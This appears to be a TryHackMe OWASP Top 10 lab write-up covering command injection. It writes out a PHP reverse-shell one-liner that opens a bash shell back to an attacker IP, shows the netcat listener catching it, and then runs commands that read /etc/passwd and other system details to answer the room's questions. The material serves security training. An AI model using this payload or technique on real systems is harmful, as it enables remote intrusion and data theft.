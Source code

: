 



[TryHackMe OWASP Top 10](https://tryhackme.com/room/owasptop10)


1.    Injection
2.    Broken Authentication
3.    Sensitive Data Exposure
4.    XML External Entity
5.    Broken Access Control
6.    Security Misconfiguration
7.    Cross-site Scripting
8.    Insecure Deserialization
9.    Components with Known Vulnerabilities
10.   Insufficent Logging & Monitoring


#	1.    Injection

-	Injection flaws are very common in applications today.
-	These flaws occur because user controlled input is interpreted as actual commands or parameters by the application.
-	Injection attacks depend on what technologies are being used and how exactly the input is interpreted by these technologies.
-	Some common examples include:

-       SQL Injection: This occurs when user controlled input is passed to SQL queries.
-	As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries.

-	Command Injection:

	-	This occurs when user input is passed to system commands.
	-	As a result, an attacker is able to execute arbitrary system commands on application servers.


	What is Active Command Injection?


	-	Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document.
	-	Active command injection will return the response to the user.  It can be made visible through several HTML elements.

	-	Let's consider a scenario: EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet.
	-	It's nowhere near finished but contains the same command injection vulnerability as before!  But this time, the response from the system call can be seen on the page!  They'll never learn!


Q1.	What strange text file is in the website root directory?

```
	IP = use ip a and get tnu0

	Syntax for reverse shell in php
	php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash  -i <&3 >&3 2>&3");'


	enter this code in any input field
	php -r '$sock=fsockopen("10.9.1.196",5555);exec("/bin/bash  -i <&3 >&3 2>&3");'



	└─╼ $ sudo  nc -lvp 5555

	listening on [any] 5555 ...
	10.10.208.90: inverse host lookup failed: Unknown host
	connect to [10.9.1.196] from (UNKNOWN) [10.10.208.90] 53570
	bash: cannot set terminal process group (974): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@injection:/var/www/html$ ls
	ls
	css
	drpepper.txt
	evilshell.php
	index.php
	js

```

###	Ans: drpepper.txt

Q2.	How many non-root/non-service/non-daemon users are there?

```
www-data@injection:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin

```

### Ans: 0

Q3.	What user is this app running as?

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```
###	Ans:	www-data

Q4.	What is the user's shell set as?

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```
###	Ans :	/usr/sbin/nologin

Q4.	What version of Ubuntu is running?

```
Way -1
www-data@injection:/var/www/html$ cat /proc/version
cat /proc/version
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-003) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020


Way -2
www-data@injection:/var/www/html$ uname -a
uname -a
Linux injection 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

Way -3 (recommand)

www-data@injection:/var/www/html$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.4 LTS
Release:        18.04
Codename:       bionic

```

Q5.	Print out the MOTD.  What favorite beverage is shown?

MOTD	 Message of the data
```
www-data@injection:/var/www/html$ cd /etc
cd /etc
www-data@injection:/etc$ ls | grep "motd"
ls | grep "motd"
update-motd.d
www-data@injection:/etc$ cd update-motd.d
cd update-motd.d
www-data@injection:/etc/update-motd.d$ ls
ls
00-header
10-help-text
50-landscape-sysinfo
50-motd-news
80-esm
80-livepatch
90-updates-available
91-release-upgrade
92-unattended-upgrades
95-hwe-eol
97-overlayroot
98-fsck-at-reboot
98-reboot-required
www-data@injection:/etc/update-motd.d$ cat 00-header
cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

DR PEPPER MAKES THE WORLD TASTE BETTER!

```

###	Ans : DR PEPPER